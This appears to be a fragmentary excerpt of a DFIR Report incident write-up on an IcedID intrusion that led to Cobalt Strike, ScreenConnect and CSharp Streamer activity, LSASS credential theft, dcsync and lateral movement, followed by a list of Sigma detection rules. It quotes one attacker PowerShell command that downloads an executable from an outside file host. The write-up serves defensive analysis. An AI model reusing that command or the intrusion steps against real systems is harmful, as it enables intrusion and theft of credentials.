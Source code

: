 Table of Contents: Case Summary The DFIR Report Services Analysts Initial Access Execution Persistence Privilege Escalation Defense Evasion Credential Access Discovery Lateral Movement Collection Command and Control Exfiltration Impact Timeline Diamond Model Indicators Detections   ...   <br>The forked IcedID loader then communicated with a command and control server, leading to the dropping and execution of another IcedID DLL.   ...   <br>Around two hours into the intrusion, the threat actor installed ScreenConnect on the beachhead using a renamed installer binary, “toovey.exe.” They executed multiple commands on the host via ScreenConnect.   ...   <br>Once the Cobalt Strike beacons were executed, they established communication with the Cobalt Strike command and control server.   ...   <br>Within 20 minutes of this activity, a new payload, cslite.exe (CSharp Streamer C2), was dropped on the beachhead.   ...   <br>During this intrusion, it was first used to access the LSASS process on the beachhead for credential access; and around 40 minutes after that, the threat actor performed a dcsync operation from the beachhead host to one of the domain controllers.   ...   <br>After installing ScreenConnect, we observed a log in to the domain controller using ScreenConnect to access the host.   ...   <br>On the second day, the threat actor returned and performed network discovery on the domain controller using SoftPerfect’s network scanner.   ...   <br>Following this, ScreenConnect was installed on the second domain controller, and an RDP session was started from this domain controller to a file server.   ...   <br>On the file server, both a Cobalt Strike beacon and the ScreenConnect installer were dropped and executed via the RDP session.   ...   <br>On day seven of the intrusion, a RDP connection was initiated from the beachhead to the backup and the file server using CSharp Streamer.   ...   <br>First, they used xcopy to stage the ScreenConnect installer across all Windows hosts in the domain and then executed it using a WMI command.   ...   <br>This can be observed in logs, as ScreenConnect drops the desired script on disk, followed by the corresponding interpreter, as discussed in a previous report.   ...   <br>This can be seen in various events, such as Security Event ID 4688 or Sysmon Event 1, as displayed below.   ...   <br>As in most intrusions we document, Cobalt Strike beacons were used in this intrusion.   ...   <br>powershell Invoke-WebRequest "http://temp.sh/VSlAV/http64.exe" -OutFile C:\programdata\rr.exe   ...   <br>Because the beacon was using plain HTTP, the retrieved PowerShell payload can be extracted from the network communications.   ...   <br>As documented in Cobalt Strike, a Defender’s Guide part 1 and part 2, the attackers used Cobalt Strike’s default pipe names, which can be easily detected.   ...   <br>p as the relay service’s port.   ...   <br>During the intrusion, the threat actor deleted the renamed ScreenConnect installers from the backup server and the file server using the “del” command, in an attempt to cover their tracks.   ...   <br>On day one, through hands-on activity, the threat actor executed cslite.exe (a CSharp Streamer file dropped on the Desktop of a compromised user), which was used to access the LSASS process.   ...   <br>0x1010: PROCESS_QUERY_LIMITED_INFORMATION (0x1000) and PROCESS_VM_READ (0x0010) 0x1FFFFF: PROCESS_ALL_ACCESS   ...   <br>We also were able to collect memory and scan it with various YARA rules, confirming the use of a Mimikatz implementation with several rule hits for the cslite.exe memory space and file:   ...   <br>Finally, on the second day, we can see yet another access to LSASS, this time from rundll32.exe, once again using access 0x1010 and with UNKNOWN in the CallTrace.   ...   <br>This time, rundll32.exe was spawned by PowerShell, which was tasked to download and execute a Cobalt Strike beacon.   ...   <br>The renamed ScreenConnect installer was copied from the beachhead to domain controllers, a backup server, and a file server using SMB.   ...   <br>As explained in the execution section, the installer was also executed via Impacket’s wmiexec.py script, which resulted in the ScreenConnect installation.   ...   <br>The threat actor leveraged the following methods to access the hosts within the network:   ...   <br>IcedID Cobalt Strike CSharp Streamer ScreenConnect   ...   <br>]com over port 443, which resolved at the time to 212.18.104.12.   ...   <br>The threat actor dropped Cobalt Strike beacons across hosts during the intrusion, communicating with the following IP addresses.   ...   <br>Post the initial forked IcedID loader infection, the threat actor deployed ScreenConnect on the beachhead using a renamed binary “toovey.exe”.   ...   <br>On the remote hosts, the “WMIPrvSE.exe” was observed executing the task.   ...   <br>90f138c1-f578-4ac3-8c49-eecfd847c8b7: BITS Transfer Job Download From Direct IP 10c14723-61c7-4c75-92ca-9af245723ad2: HackTool - Potential Impacket Lateral Movement Activity b1f73849-6329-4069-bc8f-78a604bb8b23: Remote Access Tool - ScreenConnect Remote Command Execution 90b63c33-2b97-4631-a011-ceb0f47b77c3: Suspicious Execution From GUID Like Folder Names 19b08b1c-861d-4e75-a1ef-ea0c1baf202b: Suspicious Download Via Certutil.EXE d059842b-6b9d-4ed1-b5c3-5b89143c6ede: File Download Via Bitsadmin e37db05d-d1f9-49c8-b464-cee1a4b11638: PUA - Rclone Execution 7090adee-82e2-4269-bd59-80691e7c6338: Console CodePage Lookup Via CHCP d5601f8c-b26f-4ab0-9035-69e11a8d4ad2: CobaltStrike Named Pipe c8557060-9221-4448-8794-96320e6f3e74: Windows PowerShell User Agent 1edff897-9146-48d2-9066-52e8d8f80a2f: Suspicious Invoke-WebRequest Execution With DirectIP 0ef56343-059e-4cb6-adc1-4c3c967c5e46: Suspicious Execution of Systeminfo 903076ff-f442-475a-b667-4f246bcc203b: Nltest.EXE Execution 5cc90652-4cbd-4241-aa3b-4b462fa5a248: Potential Recon Activity Via
